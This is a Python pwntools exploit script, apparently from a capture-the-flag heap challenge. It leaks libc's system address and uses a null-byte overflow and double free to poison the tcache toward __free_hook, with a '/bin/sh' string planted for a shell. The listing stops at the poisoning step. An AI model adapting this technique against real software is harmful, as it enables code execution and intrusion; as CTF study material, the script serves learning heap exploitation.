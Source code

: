 ```python
# Application logic

def initialize(answer):
    p.recv()
    p.send(answer)

def add(size, content):
    p.sendlineafter('> ', '1')
    p.sendlineafter('> ', str(size))
    p.sendafter('> ', content)

def free(idx):
    p.sendlineafter('> ', '2')
    p.sendlineafter('> ', str(idx))

def start():
    if not args.REMOTE:
        return process(BINARY)
    else:
        return remote(HOST, PORT)

p = start()
if not args.REMOTE and args.GDB:
    debug([])

initialize('y')

# Calculate everything
p.recvuntil(': ')
system = int(p.recvuntil('\n').strip('\n'), 16)
libc.address = system - libc.symbols['system']
free_hook = libc.symbols['__free_hook']

log.info('Libc base: ' + hex(libc.address))
log.info('system: ' + hex(system))
log.info('__free_hook: ' + hex(free_hook))

# Add a 0x50 and 0x180 chunk
add(0x58, 'A'*0x58) # Chunk A
add(0x180, 'B'*0x180) # Chunk B

# Free them both
free(0) # Goes into 0x50 tcache bin
free(1) # Goes into 0x180 tcache bin

# Get back the 0x50 chunk, but also null byte overflow into the 0x180 chunk
# Also put in /bin/sh\x00 into it for later use
add(0x58, '/bin/sh\x00' + 'A'*0x50) # Chunk A

# The 0x180 chunk's size is now actually 0x100 (due to null byte overflow), so we can free it again
free(1) # Goes into 0xf0 tcache bin

# Get back the 0x100 chunk out of the 0x180 tcache bin
add(0x180, 'C'*0x180) # Chunk B

# But remember that it's size is still 0x100, so we can free it immediately
free(3) # Goes into 0xf0 tcache bin

# Now: tcache[0x100] -> Chunk B <- Chunk B
# We do the usual tcache poisoning attack

# Get Chunk B from 0xf0 tcache bin and change it's FD to __free_hook
add(0xf0, p64(free_hook) + 'D'*0xe8)
```